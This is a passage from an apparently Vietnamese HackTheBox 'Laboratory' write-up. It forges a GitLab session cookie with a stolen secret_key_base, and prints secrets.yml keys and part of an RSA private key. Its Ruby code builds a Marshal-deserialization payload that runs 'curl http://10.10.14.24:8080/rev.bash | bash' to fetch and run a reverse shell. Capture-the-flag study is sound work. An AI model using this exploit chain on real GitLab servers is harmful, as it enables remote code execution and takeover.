 ```powershell
cfx:  ~/Documents/htb/laboratory
→ docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                             PORTS                     NAMES
55c5745c3e56        gitlab/gitlab-ce:12.8.1-ce.0   "/assets/wrapper"   29 seconds ago      Up 24 seconds (health: starting)   22/tcp, 80/tcp, 443/tcp   friendly_volhard

cfx:  ~/Documents/htb/laboratory
→ docker exec -it friendly_volhard /bin/bash

root@55c5745c3e56:/# ls
RELEASE  assets  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Bước 3: Thay thế secret_key_base trong phiên bản GitLab của riêng tác giả

Tiếp theo, chúng ta cần thay thế giá trị của secret_key_base bên trong `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` bằng giá trị mà chúng ta nhận được:

```shell
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

```powershell
root@55c5745c3e56:/# cat /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 1d72fbc9d369dca31357808e440be37d793ae1f1dd526cec9bd9cac74567c3eadbb34e8cfa61aa443e3b5f374afb3a5c12f279bc2fd6e30cf675962e0805afa5
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: 49aa7a32e98f1781455387cc636958cf8e270dd9f3caf1e7381b0d0327d255b3ab4ce9e052e2fe428fa91661a5e9a222365710bc007ef5e4bcf92cdc78639981
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5IsR3b8jGt7wTpQh98HqX09hpyLO+SXRwsa0eLGUL8KnY/5b
    KgQSQ1WW3re6g5Q534duvUltf0O3Yhk9Daq6J8bRTJX+tbOZKdGw00Qbyt9zjCf5
[..SNIP..]
```
Bước 4: Generating Payload

Tiếp theo, chúng ta cần chạy lệnh sau trong bảng điều khiển rails:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `curl http://10.10.14.24:8080/rev.bash | bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
